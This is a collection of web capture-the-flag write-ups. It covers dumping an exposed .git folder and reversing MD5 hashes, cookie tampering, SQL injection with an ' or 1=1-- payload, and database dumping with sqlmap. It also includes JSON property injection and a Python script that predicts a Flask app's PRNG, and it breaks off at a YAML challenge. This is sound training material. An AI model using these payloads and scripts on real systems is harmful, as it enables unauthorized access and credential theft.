


# Web

### **Problem - 01 :**  (Git_dumping)



**Solution :**

Nothing works on the web page:


The only exception is the login button which tells us that we cannot log in:


If we check `/robots.txt` we're given some clues:

```bash
User-agent: *
Disallow: /admin.html
Disallow: /.git/
```

We now know there's an administrative login page and a Git repository. There's a good chance the repository has the credentials we need to log in.

If we try to navigate to the `/.git/` directory we're told we cannot access it:

```bash
Cannot GET /.git
```

We can run a basic “ nmap “ scan on the host ( *nmap -T4 -p- -A LINK* ) . On examining the results, we find some interesting stuff.


The “ nmap “ scan reveals the `.git` directory and the `COMMIT_EDITMSG` file

On examining the `COMMIT_EDITMSG` file, we find a potential email address for the `/admin.html`page, `aaron@cgau.sdc.tf`. We also find a bunch of filenames, but the one that looks the most interesting is `users.db`. But we cannot access the `users.db` file just by navigating to `/users.db`, as it said forbidden. Our main aim is to somehow get the files from the `.git` folder. In the `.git` folder, objects are stored as blobs, so its not going to be easy to read them.

But [Dumper from GitTools](https://github.com/internetwache/GitTools) has no trouble grabbing the entire thing:


```bash
$ ./gitdumper.sh https://cgau.sdc.tf/.git/ cgau/
###########
# GitDumper is part ofhttps://github.com/internetwache/GitTools## Developed and maintained by @gehaxelt from @internetwache
## Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########

[*] Destination folder does not exist
[+] Creating cgau/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[-] Downloaded: logs/HEAD
[-] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/0b/23360a5d79ecf5241fd6790edd619304825b9a
[+] Downloaded: objects/42/6ec68a64f6fe89ec40a3352213703792e080cb
[+] Downloaded: objects/d8/eb39e3e2bb984ce687768d20f58d962942841d
[+] Downloaded: objects/21/c3532b100a5f8566f5fc4c64f2a4486618a67e
[+] Downloaded: objects/a7/6c475d6b53daf7efe8396b494f5e09ab4abc91
[+] Downloaded: objects/2c/55d1ca4ec7d827b7f4357436ca5ea4ee5327d1
[+] Downloaded: objects/aa/c42f1d66b35b027d9538cfb3252473b08f11cd
[+] Downloaded: objects/ce/86d86f4c3f5bd7a63136a2caaf76d57071d905
[+] Downloaded: objects/6a/ab31640a322209ccd9e0e6eeab36ef65be0df0
[+] Downloaded: objects/6a/70ab0a4ef8f968750fc627fe248d30d066c8c2
[+] Downloaded: objects/32/e65831b8ccdef0c8d181116c660e11233983f9
[+] Downloaded: objects/b1/532f74e423381703e466520e99f9619a4ca334
[+] Downloaded: objects/7e/23e8d425a5f91a7f5e70d6c7cc6d7811db661d
[+] Downloaded: objects/9a/55d593b0f12ff6f64a06094aa873690b8ceabd
[+] Downloaded: objects/20/c9f02c6a89d4bdf1d6644b12e80e093bf63a3e
[+] Downloaded: objects/95/96c8286bedc6214c91e3efc2876efd41c6301e
[+] Downloaded: objects/84/f191442c8479c4cbd67937b9cbe3df2038be63
```

Right away we have some targets:

Great now let’s extract the source code from commit history using a tool called [Extractor](https://github.com/internetwache/GitTools/tree/master/Extractor) from GitTools. Also if you want to fall into a rabbit hole of how exactly Extractor does it, Maybe after the article start from [here](https://medium.com/swlh/hacking-git-directories-e0e60fa79a36).


Don’t forget on checking the instructions from their repository!

Let’s now inspect the files further.


Great, two new weird looking files. By the way the “0-” and “1-” prefixes are just the index of the commits.


Congratulations we dumped the content. The first thing that grabs my attention here is users.db.


Great, It’s an SQLITE3 file. Let’s inspect it.

Or , 

Right away we have some targets:

```
$ git status
On branch master
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    .gitignore
        deleted:    admin.html
        deleted:    app.js
        deleted:    image1.png
        deleted:    index.html
        deleted:    package-lock.json
        deleted:    package.json
        deleted:    robots.txt
        deleted:    users.db

no changes added to commit (use "git add" and/or "git commit -a")
```

Let's look at `users.db`:

```
$ git restore users.db
$ sqlite3 users.db
SQLite version 3.35.5 2021-04-19 18:32:05
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> .schema users
CREATE TABLE users(id INTEGER PRIMARY KEY, email TEXT, password TEXT);
sqlite> SELECT email,password FROM users;
aaron@cgau.sdc.tf|$2b$10$8DFs3422S4yG286Pu1FYWO8zvkVX4kCKZu2VDWp1f8CXbaxj0S8UW
chris@cgau.sdc.tf|$2a$10$mYH9SVwA7zOeh8s9fkpl8egbfEC3qMQFpbg7Aptrp2DFUf7y1oD/i
yash@cgau.sdc.tf|$2a$10$EI2PlyKMjBJneVkSj/Nzi.RgDj6HXCtD/yPbpQEtFy4OmuK.rl3bG
rj@cgau.sdc.tf|$2a$10$0Dl8VuHQamYsDD1wODwzOef.piAL2PmMyV5mduQBO4UxJDHedSwt.
shawn@cgau.sdc.tf|$2a$10$RW.M5zXvKlv9Y96Xhhf1Wu0A91x2riQB.FKK6JJaU5id1OdX5bQM6
sqlite> .exit
```

Okay great. This looks like a bcrypt password hash. I know that from experience and also the fact that it uses bcrypt library in app.js in the same commit:


Weird though. It also tried to import md5 hashing library. md5 is a way weaker hashing algorithm than bcrypt. Let’s check the other commit we had. Maybe we find something different there.


Same stuff from the surface. Let’s check app.js.


Okay..so they aren’t importing the bcrypt library in this commit. Can it mean that the database here also might have md5 hashes passwords?


Bingo! md5 hashed passwords. md5 hashed passwords have “reversers” online.

This time we have MD5 hashes. If we search Google for the very first hash, we get [a hit](https://networkengineering.stackexchange.com/questions/70516/why-does-the-ciscos-command-enable-secret-password-produce-different-hash-f) immediately, telling us that `e04efcfda166ec49ba7af5092877030e` is derived from `weakpassword`.

f you look through the directory, you will find what the login link should be that they “hide”.


There is an admin.html

Great. Let’s go to admin.html and login.

If we go back to the admin login page, we can log in with `aaron@cgau.sdc.tf` and `weakpassword`:


And we're given our flag: `sdctf{1298754_Y0U_G07_g00D!}`.

There is a secret and easy solve in this problem ,


### **Problem - 02 : (Custom_cookie_value_setting)**

I am Cookie monster

**Solution :**

1. A little recon in case you don’t know who is “cookie monster”
- Google search “cookie monster”
- It’s a character from Sesame Street
1. The description’s URL gives you only this string

> He’s my favorite Red guy
> 
> - Google search “cookie monster best friend red”
> - It’s a character named Elmo


1. Open the browser’s web developer tools and check the request headers, in the “network” tab
2. Notice the cookie

> Red_Guy’s_name=NameGoesHere
> 
1. Send the request with his name

```bash
$ curl -v --cookie "Red_Guy's_name=Elmo" [http://neverlanctf-challenges-elb-2146429546.us-west-2.elb.amazonaws.com:14098/](http://neverlanctf-challenges-elb-2146429546.us-west-2.elb.amazonaws.com:14098/)
*   Trying 52.10.167.210...
* TCP_NODELAY set
* Connected to [neverlanctf-challenges-elb-2146429546.us-west-2.elb.amazonaws.com](http://neverlanctf-challenges-elb-2146429546.us-west-2.elb.amazonaws.com/) (52.10.167.210) port 14098 (#0)
> GET / HTTP/1.1
> Host: [neverlanctf-challenges-elb-2146429546.us-west-2.elb.amazonaws.com](http://neverlanctf-challenges-elb-2146429546.us-west-2.elb.amazonaws.com/):14098
> User-Agent: curl/7.55.1
> Accept: */*
> Cookie: Red_Guy's_name=Elmo
> 
< HTTP/1.1 200 OK
< Content-Type: text/html; charset=UTF-8
< Date: Tue, 27 Feb 2018 03:30:44 GMT
< Server: nginx
< X-Powered-By: PHP/7.1.12
< Content-Length: 160
< Connection: keep-alive
< 
<!DOCTYPE html>
<html>
    <head>
        <title>Cookie_monster</title>
    </head>
    <body>
    <p>You got it! **flag{C00kies_4r3_the_b3st}**</p></body>
</html>
* Connection #0 to host [neverlanctf-challenges-elb-2146429546.us-west-2.elb.amazonaws.c](http://neverlanctf-challenges-elb-2146429546.us-west-2.elb.amazonaws.com/)
```

### **Problem - 03 : (javascript_path_traversal)**

To keep my server from doing a lot of work, I made javascript do the heavy lifting of checking a user's password

[https://drive.google.com/file/d/1YrokHz9aRF87QIxha1LRcmWJiwSlxKOE/view?usp=drive_link](https://drive.google.com/file/d/1YrokHz9aRF87QIxha1LRcmWJiwSlxKOE/view?usp=drive_link)

**Solution :**

We see the inline javascript validator function

```
// make an ajax request to get the expected username
$.ajax('webhooks/get_username.php',{})
```

Likewise, for the password

```
// make an ajax request to get the expected password for the given username
$.ajax('webhooks/get_password.php?user='+encodeURIComponent($('#name').val()),{})
```

So retrieving it all...

```bash
$ curl https://challenges.neverlanctf.com:1135/webhooks/get_username.php
{"usernames": ["AdamsFamily","Mr. Clean","Dr. Whom","JimmyOneShoe"]}

$ curl https://challenges.neverlanctf.com:1135/webhooks/get_password.php?user=AdamsFamily
VHJ5IGEgZGlmZmVyZW50IHVzZXI=

$ curl -s https://challenges.neverlanctf.com:1135/webhooks/get_password.php?user=Mr.%20Clean  | base64 -D
not this one either...

$ curl -s https://challenges.neverlanctf.com:1135/webhooks/get_password.php?user=AdamsFamily  | base64 -D
Try a different user

$ curl -s https://challenges.neverlanctf.com:1135/webhooks/get_password.php?user=JimmyOneShoe  | base64 -D
Wrong user
$ curl -s https://challenges.neverlanctf.com:1135/webhooks/get_password.php?user=Dr.%20Whom  | base64 -D
flag{D0n't_7rus7_JS}

```

**Flag →** `flag{D0n't_7rus7_JS}`

### **Problem - 04 :    ( Das_Blog_1_SQLi_Normal )**

Word on the street, Johnny's got a blog. Seems he doesn't know how to escape his inputs.

**Solution :**


Johnny has a blog it seems, however he doesn’t clean the input he gets from users. Open up his login page and we have a username field and a password field. Lets try using Johnny as a username and leave the password blank.

> Sorry, That Username / Password is incorrect.
> 

Alright then, let’s try something different. Let’s try Johnny’:

> There was a problem when looking for user. Please try again.
> 

Very interesting. This indicates to us that the username field is vulnerable to a [SQL injection](https://www.w3schools.com/sql/sql_injection.asp), one of the most famous vulnerabilities ever discovered.

This was a Basic SQL Injection if u had the right and the most common payload. LOOL !!
                                                                     `Payload : 'or 1=1--` 

And plz don’t forget the trailing spaces after the **- -**.


We were logged in as Johnny with permissions as **admin**.


After Clicking on the

*click here to go to the main page*

We saw our flag in one of the posts…


### **Problem - 05 :    ( Das_Blog_2_SQLmap )**

Well, we really showed Johnny. It looks like he made some changes... But he still isn't escaping his inputs. Teach him a lesson.

**Solution :**

This challenge is basically the same as `Das blog 1`, except when we login the flag is not there. This means the flag is probably hidden in the database. We can use the sql injection to dump the database with `sqlmap`.

First I save the POST request to a text file which we will then use in sqlmap.

```bash
POST https://challenges.neverlanctf.com:1130/login.php? HTTP/1.1
Host: challenges.neverlanctf.com:1130
Connection: keep-alive
Content-Length: 38
Pragma: no-cache
Cache-Control: no-cache
Origin:https://challenges.neverlanctf.com:1130
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/71.0.3578.98 Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer:https://challenges.neverlanctf.com:1130/login.php?
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=qc72d1v1nl3ufbj6b1bipqrdkv

Username=asd&Password=asd&submit=Login
```

```bash
$  sqlmap -r post.txt -p "Username"
```


We know it's vulnerable, let's dump the databases.

```bash
$ sqlmap -r post.txt -p "Username" --dbs
...
available databases [3]:
[*] blog
[*] information_schema
[*] test
```

Dumping the tables

```bash
$ sqlmap -r post.txt -p "Username" --tables
Database: blog
[2 tables]
+---------------------------------------+
| posts                                 |
| users                                 |
+---------------------------------------+
```

Then we can dump the data of the table `posts`.

```bash
$ sqlmap -r post.txt -p "Username" --dump posts
...
    flag{Pwn3d_W1th_SQL}
...
```

### **Problem - 06 :  ( SQL_Fun_1_Query )**

REPORT: 'My Customer forgot his Password. His Fname is Jimmy. Can you get his password for me? It should be in the users table’

**Solution :**

This page greets us with a text box to input SQL code. [SQL](https://www.w3schools.com/sql/) is Structured Query Language. It is a programming language for databases and it has a relatively simple syntax. This is how we normally write a query (request) for a SQL database:

`SELECT * FROM table WHERE field = value`

[SELECT](https://www.w3schools.com/sql/sql_ref_select.asp) just states what to get from the database, in this case it’s an asterisk sign, which is a [wildcard](https://www.w3schools.com/sql/sql_wildcards.asp) meaning everything. FROM sets the table we will query. [WHERE](https://www.w3schools.com/sql/sql_where.asp) defines what field we are querying with what value. If we were looking for Jimmy in the database, his name would be the value. Nicely enough, we are provided with the rest we need to complete our SQL statement. “Fname” is the field name where Jimmy’s name is stored and the table we need is called “users”, so let us create the SQL statement:

`SELECT * FROM users WHERE Fname = 'Jimmy'`

Our query works and gives us this information in a table:

| **id** | **Username** | **Fname** | **Lname** | **Email** | **Password** |
| --- | --- | --- | --- | --- | --- |
| 2 | JimWill | Jimmy | Willman | SQL@example.com | flag{SQL_F0r_Th3_W1n} |

His password is your flag:

`flag{SQL_F0r_Th3_W1n}`

### **Problem - 07 :  ( SQL_Fun_2_query )**

REPORT: A Client forgot his Password... again. Could you get it for me? He has a users account and his Lname is Miller if that helps at all. Oh! and Ken was saying something about a new table called passwd; said it was better to separate things

**Solution :**

So we do a simple retrieval of the Lname

```sql
SELECT * FROM `users` WHERE Lname='Miller'
```

And we get the results with a hint.

```sql
id --->	Username --->	Fname	---> Lname --->	Email
5	----> DisUser ---->	Tom	-----> Miller -->Miller@example.com
maybe try JOINing another table
```

So we need to [use the JOIN query](https://www.w3schools.com/sql/sql_join.asp)

```
SELECT * FROM users
INNER JOIN passwd ON users.id=passwd.user_id
WHERE Lname='Miller'
```

And we get the results

```
2	DisUser	Tom	Miller	Miller@example.com	5	ZmxhZ3tXMWxsX1kwdV9KMDFOX00zP30=
```

Base64 decode it

**Flag →** `flag{W1ll_Y0u_J01N_M3?}`

### **Problem - 08 : (JSON_Object_Passing)**

`"length".length` is 6?

**Solution :**

***Site functionality ,***

The challenge description suggests we run a curl command.

```bash
curl http://challs.tsukuctf.org:28888

How to use -> curl -X POST -d 'array=[1,2,3,4]' http://challs.tsukuctf.org:28888
```

Now we have a new curl command to try.

```bash
curl -X POST -d 'array=[1,2,3,4]' http://challs.tsukuctf.org:28888

error: no flag for you. sanitized string is [1,2,3,4], length is 9
```

Wait, do we just make the numbers add up to 6?

```bash
curl -X POST -d 'array=[1,2,3,0]' http://challs.tsukuctf.org:28888

error: no flag for you. sanitized string is [1,2,3,0], length is 9
```

I guess not. Let's check the source code 🔎

***Source code ,***

```jsx
const express = require("express");
const bodyParser = require("body-parser");
const process = require("node:process");

const app = express();
const HOST = process.env.HOST ?? "localhost";
const PORT = process.env.PORT ?? "28888";
const FLAG = process.env.FLAG ?? "TsukuCTF25{dummy_flag}";

app.use(bodyParser.urlencoded({ extended: true }));

function chall(str = "[1, 2, 3]") {
    const sanitized = str.replaceAll(" ", "");
    if (sanitized.length < 10) {
        return `error: no flag for you. sanitized string is ${sanitized}, length is ${sanitized.length.toString()}`;
    }
    const array = JSON.parse(sanitized);
    if (array.length < 0) {
        // hmm...??
        return FLAG;
    }
    return `error: no flag for you. array length is too long -> ${array.length}`;
}

app.get("/", (_, res) => {
    res.send(`How to use -> curl -X POST -d 'array=[1,2,3,4]' http://${HOST}:${PORT}\n`);
});

app.post("/", (req, res) => {
    const array = req.body.array;
    res.send(chall(array));
});

app.listen(PORT, () => {
    console.log(`Server is running on http://${HOST}:${PORT}`);
});
```

***Breaking it down ,***

1. The spaces are removed from our array (string)
2. The resulting string length must be >= 10
3. The string is parsed into an array with `JSON.parse`
4. The resulting array length must be < 0

***Crafting a JSON object ,***

We can easily get around the first check by increasing the array (string) length, but we fail the second test.

```bash
curl -X POST -d 'array=[1,2,3,4,5]' http://challs.tsukuctf.org:28888

error: no flag for you. array length is too long -> 5
```

The trick here is to enter a string that is 10+ characters, but that when parsed as JSON will return a length less than 0. Since `array` is a JSON object and the code checks the `length` property of that object, why don't we try injecting a `length` property ourselves?

```bash
curl -X POST -d 'array={"length": -420}' http://challs.tsukuctf.org:28888

TsukuCTF25{l4n_l1n_lun_l4n_l0n}
```

It works, we get the flag! 🚩

Flag: `TsukuCTF25{l4n_l1n_lun_l4n_l0n}`

### **Problem - 09 : (Random_session_id_with_crypto)**

3, 2, 1, pop!

**Solution :**

***Site functionality ,***

When we open the website, we are welcomed to a basic page that says `Flash!` and presents a start button. Clicking start will cycle through 10 rounds, displaying a 7 digit unique number each time.

[](https://book.cryptocat.me/~gitbook/image?url=https%3A%2F%2F2104974767-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F77j4CZSOdhmt4S1buKA5%252Fuploads%252Fgit-blob-d3d24549fc4af5032efdc243fb6815063f9dbfbc%252F0.PNG%3Falt%3Dmedia&width=768&dpr=4&quality=100&sign=200e794&sv=2)

When we get to the end, we have to enter the total value.

[](https://book.cryptocat.me/~gitbook/image?url=https%3A%2F%2F2104974767-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F77j4CZSOdhmt4S1buKA5%252Fuploads%252Fgit-blob-2a81fa6ffa6e5553311f87e94fbb0c188432f94e%252F1.PNG%3Falt%3Dmedia&width=768&dpr=4&quality=100&sign=e13300c6&sv=2)

I thought maybe I could just use a match/replace rule in burp to change the timeout of each round from 500ms to 5000ms, giving me time to write down each number. However, some of the rounds (4-7) don't show any value at all .

[](https://book.cryptocat.me/~gitbook/image?url=https%3A%2F%2F2104974767-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F77j4CZSOdhmt4S1buKA5%252Fuploads%252Fgit-blob-4d9ef8f856c3bacd190a03cff71af30b0d008a12%252F2.PNG%3Falt%3Dmedia&width=768&dpr=4&quality=100&sign=5f872079&sv=2)



Note that each round provides a new session cookie, which we can decode with `flask-unsign`.

```bash
flask-unsign --decode --cookie eyJyb3VuZCI6Mywic2Vzc2lvbl9pZCI6ImJhNTkwZjNkNDk4ZjYzOWEyMDY1MTkxODExMGI1MmZjIn0.aBXXmg.LkgczekNJZjwpWpbLu7inYQ_k2M

{'round': 3, 'session_id': 'ba590f3d498f639a20651918110b52fc'}
```

***Source code ,***

The challenge comes with source code, `app.py` is the most interesting.

```python
from flask import Flask, session, render_template, request, redirect, url_for, make_response
import hmac, hashlib, secrets

used_tokens = set()

with open('./static/seed.txt', 'r') as f:
    SEED = bytes.fromhex(f.read().strip())

def lcg_params(seed: bytes, session_id: str):
    m = 2147483693
    raw_a = hmac.new(seed, (session_id + "a").encode(), hashlib.sha256).digest()
    a = (int.from_bytes(raw_a[:8], 'big') % (m - 1)) + 1
    raw_c = hmac.new(seed, (session_id + "c").encode(), hashlib.sha256).digest()
    c = (int.from_bytes(raw_c[:8], 'big') % (m - 1)) + 1
    return m, a, c

def generate_round_digits(seed: bytes, session_id: str, round_index: int):
    LCG_M, LCG_A, LCG_C = lcg_params(seed, session_id)

    h0 = hmac.new(seed, session_id.encode(), hashlib.sha256).digest()
    state = int.from_bytes(h0, 'big') % LCG_M

    for _ in range(DIGITS_PER_ROUND * round_index):
        state = (LCG_A * state + LCG_C) % LCG_M

    digits = []
    for _ in range(DIGITS_PER_ROUND):
        state = (LCG_A * state + LCG_C) % LCG_M
        digits.append(state % 10)

    return digits

def reset_rng():
    session.clear()
    session['session_id'] = secrets.token_hex(16)
    session['round'] = 0

TOTAL_ROUNDS = 10
DIGITS_PER_ROUND = 7
FLAG = "TsukuCTF25{**REDACTED**}"

app = Flask(__name__)
app.secret_key = secrets.token_bytes(16)

@app.route('/')
def index():
    reset_rng()
    return render_template('index.html')

@app.route('/flash')
def flash():
    session_id = session.get('session_id')
    if not session_id:
        return redirect(url_for('index'))

    r = session.get('round', 0)
    if r >= TOTAL_ROUNDS:
        return redirect(url_for('result'))

    digits = generate_round_digits(SEED, session_id, r)

    session['round'] = r + 1

    visible = (session['round'] <= 3) or (session['round'] > 7)
    return render_template('flash.html', round=session['round'], total=TOTAL_ROUNDS, digits=digits, visible=visible)

@app.route('/result', methods=['GET', 'POST'])
def result():
    if request.method == 'GET':
        if not session.get('session_id') or session.get('round', 0) < TOTAL_ROUNDS:
            return redirect(url_for('flash'))
        token = secrets.token_hex(16)
        session['result_token'] = token
        used_tokens.add(token)
        return render_template('result.html', token=token)

    form_token = request.form.get('token', '')
    if ('result_token' not in session or form_token != session['result_token']
            or form_token not in used_tokens):
        return redirect(url_for('index'))
    used_tokens.remove(form_token)

    ans_str = request.form.get('answer', '').strip()
    if not ans_str.isdigit():
        return redirect(url_for('index'))
    ans = int(ans_str)

    session_id = session.get('session_id')
    correct_sum = 0
    for round_index in range(TOTAL_ROUNDS):
        digits = generate_round_digits(SEED, session_id, round_index)
        number = int(''.join(map(str, digits)))
        correct_sum += number

    session.clear()
    resp = make_response(
        render_template('result.html', submitted=ans, correct=correct_sum,
                        success=(ans == correct_sum), FLAG=FLAG if ans == correct_sum else None)
    )
    cookie_name = app.config.get('SESSION_COOKIE_NAME', 'session')
    resp.set_cookie(cookie_name, '', expires=0)
    return resp

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

***Breaking it down ,***

The Flask app generates a series of 10 pseudo-random 7-digit numbers using a deterministic PRNG seeded by a secret value and a session ID. The goal is to calculate the sum of all 10 numbers, but only rounds 1–3 and 8–10 are visible.

At startup, the app reads a secret `SEED` from `./static/seed.txt`. This file is served from Flask's `static/` directory, making it publicly downloadable.


```
b7c4c422a93fdc991075b22b79aa12bb19770b1c9b741dd44acbafd4bc6d1aabc1b9378f3b68ac345535673fcf07f089a8492dc1b05343a80b3d002f070771c6
```

When we visit `/`, the app generates a new session with a random `session_id` and sets the round to 0. The `session_id` is stored in the Flask session cookie, which is signed but decodable (using `flask-unsign`).

Each round's number is generated by a linear congruential generator (LCG), with parameters (`a`, `c`) and initial state derived from HMACs of the `SEED` and `session_id`. The generator advances the state based on the current round index and produces 7 digits per round.

The `/flash` endpoint shows the digits in an image if the round is in [0, 1, 2, 7, 8, 9]; otherwise, the digits are hidden. It progresses through the rounds automatically, and after round 10, we are redirected to `/result`.

At `/result`, we must submit the sum of all 10 numbers. The server recomputes all 10 numbers using the stored `session_id` and compares the submitted sum to the correct one. If the answer is correct, the flag is displayed.

Steps to solve:

1. Download `seed.txt` from `/static/seed.txt`.
2. Go through all 10 rounds in a single session, preserving the session cookie.
3. Decode the `session_id` from the cookie after the 10 rounds.
4. Use the known `SEED` and decoded `session_id` to regenerate all 10 numbers using the PRNG logic.
5. Compute the sum and submit it at `/result` to receive the flag.

We can use ChatGPT to make a quick solve script 🙏

[**solve.py](http://solve.py) ,**

```python
import requests
import hmac
import hashlib
import base64
import json
import time

BASE_URL = "http://challs.tsukuctf.org:50000"
SEED_HEX = "b7c4c422a93fdc991075b22b79aa12bb19770b1c9b741dd44acbafd4bc6d1aabc1b9378f3b68ac345535673fcf07f089a8492dc1b05343a80b3d002f070771c6"
SEED = bytes.fromhex(SEED_HEX)
DIGITS_PER_ROUND = 7
TOTAL_ROUNDS = 10
LCG_M = 2147483693

session = requests.Session()

def decode_flask_cookie(cookie):
    payload = cookie.split('.')[0]
    padded = payload + '=' * (-len(payload) % 4)
    decoded = base64.urlsafe_b64decode(padded)
    return json.loads(decoded)

def lcg_params(seed: bytes, session_id: str):
    raw_a = hmac.new(seed, (session_id + "a").encode(),
                     hashlib.sha256).digest()
    a = (int.from_bytes(raw_a[:8], 'big') % (LCG_M - 1)) + 1
    raw_c = hmac.new(seed, (session_id + "c").encode(),
                     hashlib.sha256).digest()
    c = (int.from_bytes(raw_c[:8], 'big') % (LCG_M - 1)) + 1
    return a, c

def generate_round_digits(seed: bytes, session_id: str, round_index: int):
    a, c = lcg_params(seed, session_id)
    h0 = hmac.new(seed, session_id.encode(), hashlib.sha256).digest()
    state = int.from_bytes(h0, 'big') % LCG_M
    for _ in range(DIGITS_PER_ROUND * round_index):
        state = (a * state + c) % LCG_M
    digits = []
    for _ in range(DIGITS_PER_ROUND):
        state = (a * state + c) % LCG_M
        digits.append(state % 10)
    return digits

# Step 1: Start a new session
print("[*] Resetting session...")
session.get(BASE_URL + "/")

# Step 2: Visit /flash 10 times, waiting for 500ms after each
print("[*] Playing through 10 rounds...")
for i in range(TOTAL_ROUNDS):
    session.get(BASE_URL + "/flash")
    print(f"Visited /flash - round {i + 1}")
    time.sleep(0.6)  # must wait >500ms to match auto-redirect timing

# Step 3: Extract session_id from cookie
cookie = session.cookies.get("session")
session_data = decode_flask_cookie(cookie)
session_id = session_data["session_id"]
print(f"[*] session_id: {session_id}")

# Step 4: Recompute numbers using SEED and session_id
print("[*] Generating numbers...")
total_sum = 0
for i in range(TOTAL_ROUNDS):
    digits = generate_round_digits(SEED, session_id, i)
    number = int("".join(map(str, digits)))
    print(f"Round {i+1:2d}: {''.join(map(str, digits))} -> {number}")
    total_sum += number

print(f"\n✅ Total sum to submit: {total_sum}")

# Step 5: GET /result to retrieve token
resp = session.get(BASE_URL + "/result")
token_line = [line for line in resp.text.splitlines()
              if 'name="token"' in line]
if not token_line:
    print("❌ Couldn't find token. Are you sure 10 rounds completed?")
    exit()

token = token_line[0].split('value="')[1].split('"')[0]
print(f"[*] token: {token}")

# Step 6: POST result with sum
resp = session.post(BASE_URL + "/result", data={
    "token": token,
    "answer": str(total_sum)
})

# Step 7: Extract flag
if "TsukuCTF25{" in resp.text:
    start = resp.text.find("TsukuCTF25{")
    end = resp.text.find("}", start) + 1
    flag = resp.text[start:end]
    print(f"\n🎉 FLAG: {flag}")
else:
    print("❌ Submission failed or incorrect. Try again.")
```

We run the script, and receive the flag 🤤

```bash
python solve.py

[*] Resetting session...
[*] Playing through 10 rounds...
Visited /flash - round 1
Visited /flash - round 2
Visited /flash - round 3
Visited /flash - round 4
Visited /flash - round 5
Visited /flash - round 6
Visited /flash - round 7
Visited /flash - round 8
Visited /flash - round 9
Visited /flash - round 10
[*] session_id: c0be089df10682d5687ac81f00520805
[*] Generating numbers...
Round  1: 3169996 -> 3169996
Round  2: 0939486 -> 939486
Round  3: 8232852 -> 8232852
Round  4: 1192245 -> 1192245
Round  5: 1860709 -> 1860709
Round  6: 3580649 -> 3580649
Round  7: 6978503 -> 6978503
Round  8: 7458677 -> 7458677
Round  9: 0971548 -> 971548
Round 10: 8093972 -> 8093972

✅ Total sum to submit: 42478637
[*] token: 9b8614ce12bd1a6445fd3c0a9e6a0eb9

🎉 FLAG: TsukuCTF25{Tr4d1on4l_P4th_Trav3rs4l}
```

Not sure if I took the intended approach here, since I didn't actually do any path traversal. I feel like I was tricked into doing a crypto challenge 😑

Flag: `TsukuCTF25{Tr4d1on4l_P4th_Trav3rs4l}`

### **Problem - 10 : (Yaml_injection)**

*YAML is awesome!!*

```bash
curl -X POST "http://challs.tsukuctf.org:50001" -H "Content-Type: text/plain" -d "file: flag.txt"

(mirror)
curl -X POST "http://20.2.250.108:50001" -H "Content-Type: text/plain" -d "file: flag.txt"
```

**Concept :**

